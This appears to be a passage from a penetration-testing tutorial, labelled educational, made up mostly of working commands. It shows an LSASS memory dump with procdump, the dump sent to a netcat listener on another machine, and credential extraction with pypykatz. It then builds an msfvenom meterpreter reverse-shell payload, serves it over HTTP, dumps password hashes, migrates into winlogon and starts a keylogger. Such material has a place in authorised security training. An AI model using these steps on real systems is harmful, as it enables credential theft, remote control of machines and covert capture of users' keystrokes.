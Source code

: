 ```bash
#### Detailed Example: Dumping LSASS Memory with Procdump

```bash
# On Windows:
# 1. Download Procdump from Sysinternals
# 2. Identify LSASS process ID
PS > Get-Process -Name lsass
# 3. Dump the process memory
PS C:\Users\IEUser\Downloads\Procdump> .\procdump.exe -ma 436 lsass.dmp

# Transfer the dump file for analysis
# On Kali Linux:
# 1. Set up a listener
└─$ nc -vlp 123 > lsass.dmp
# On Windows:
C:\netcat-1.11> nc.exe 192.168.1.142 123 < C:\Users\IEUser\Downloads\Procdump\lsass.dmp

# Analyze the dump file
└─$ pypykatz lsa minidump lsass.dmp
```

**Educational Notes:**

- This technique demonstrates how credentials are stored in memory
- Understanding this process helps in developing better credential protection mechanisms
- LSASS memory dumps contain sensitive authentication data that should be protected


## Keylogging Techniques

### Creating an Educational Keylogger with Msfvenom

This example demonstrates how keyloggers can capture sensitive information, highlighting the importance of endpoint security.

#### Detailed Example: Msfvenom Keylogger

```bash
# 1. Generate payload
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.74.136 LPORT=4444 -f exe -o shell.exe

# 2. Set up web server to deliver payload
root@kali:~# python3 -m http.server

# 3. Set up handler in Metasploit
root@kali:~# msfconsole
msf > use multi/handler
msf exploit(multi/handler) > set LHOST 192.168.74.136
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > exploit

# 4. After connection is established:
meterpreter > run post/windows/gather/hashdump
meterpreter > ps
meterpreter > ps | grep logon

# 5. Migrate to winlogon process for persistence
meterpreter > migrate 868
[*] Migrating from 6080 to 868...
[*] Migration completed successfully.

# 6. Start keylogger
meterpreter > keyscan_start
```